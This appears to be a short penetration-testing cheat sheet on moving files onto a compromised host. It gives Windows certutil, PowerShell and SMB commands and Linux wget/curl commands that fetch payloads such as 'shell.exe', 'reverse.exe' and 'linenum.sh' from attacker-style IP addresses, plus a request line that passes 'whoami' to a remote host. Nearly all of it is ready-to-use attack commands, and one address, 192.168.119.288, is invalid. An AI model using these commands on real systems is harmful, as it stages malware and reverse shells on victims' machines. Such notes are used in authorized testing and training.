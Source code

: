 # File Download

## Windows

### CMD&#x20;

```
certutil.exe -urlcache -split -f “http://192.168.119.288/shell.exe”
```

https://zetc0de.github.io/post/powershell-download-file-one-liners/

### POWERSHELL

**PowerShell (any version)**&#x20;

```
(New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")
```

**PowerShell 4.0 & 5.0**&#x20;

```
Invoke-WebRequest "https://example.com/archive.zip" -OutFile "C:\Windows\Temp\archive.zip"
```

**Command is like curl**

```
PS C:> $wc = New-Object Net.WebClient 
PS C:> $wc.DownloadString("http://target/?whoami")
```

**Via SMB**

```
\\192.168.1.1\share\reverse.exe
```

**FTP -** Look details at under this node for non interactive shells.

## Linux

```
wget http://192.168.119.228/linenum.sh
curl http://192.168.1.1/linenum.sh -o linenum.sh
curl http://192.168.1.1/linenum.sh > linenum.sh
```

**FTP -** Look details at under this node for non interactive shells.
